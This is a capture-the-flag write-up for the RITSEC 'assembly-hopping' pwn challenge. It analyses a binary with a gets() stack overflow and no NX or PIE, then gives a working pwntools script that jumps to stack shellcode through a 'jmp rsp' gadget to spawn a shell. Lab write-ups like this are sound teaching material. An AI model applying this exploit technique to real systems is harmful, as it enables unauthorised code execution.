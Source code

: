 # assembly-hopping #


## Description ## 

Doesn't everyone love assembly?

```
nc assembly-hopping.challenges.ctf.ritsec.club 1337
```

## Analysis ## 

The usual things: 

```
$ file assembly 
assembly: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=12ba5f7935d8872fd9ba0609ce36d268bbe63d23, for GNU/Linux 3.2.0, not stripped
```

```
$ checksec assembly
[*] '/home/bugs/projects/ctf/ritsec/pwn/assembly-hopping/assembly'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

From this we learn that: 
- PIE is disabled so we can source ROP gadgets from the binary mapped at `0x400000`
- NX is also disabled, this means that we can execute instructions on the stack.

Let's take a look at the decompiled code: 

```c
undefined8 main(void)

{
  setuid(0);
  setgid(0);
  feedback_machine();
  return 0;
}

```

Main calls `feedback_machine()` 

```c

void feedback_machine(void)

{
  char local_d8 [208];
  
  puts(
      "[!] Okay, you proved yourself in the first challenge. This challenge is similar but with a li ttle twist."
      );
  puts("[!] Otherwise, pls give feedback of the challenges!!");
  gets(local_d8);
  puts("[!] Saved to our feedback database....");
  return;
}

```

This function is vulnerable to a trivial stack-based buffer overflow.

## Exploitation ## 
Exploiting this vulnerability is relatively simple, we need shellcode on the stack and a `jmp rsp` gadget. 

Let's find the gadget first: 
```
$ ROPgadget --binary ./assembly | grep -i 'jmp rsp'
[...]
0x0000000000401156 : jmp rsp
[...]
```

We can use `pwntools` to generate shellcode for us!

```python
#!/usr/bin/env python3
from pwn import * 

context.update(arch="amd64")

shellcode = asm(shellcraft.amd64.linux.sh())

jmp_rsp = 0x0000000000401156
payload = b"A" * 216
payload += p64(jmp_rsp)
payload += shellcode 

r = process("./assembly")
r.sendline(payload)

r.interactive()
```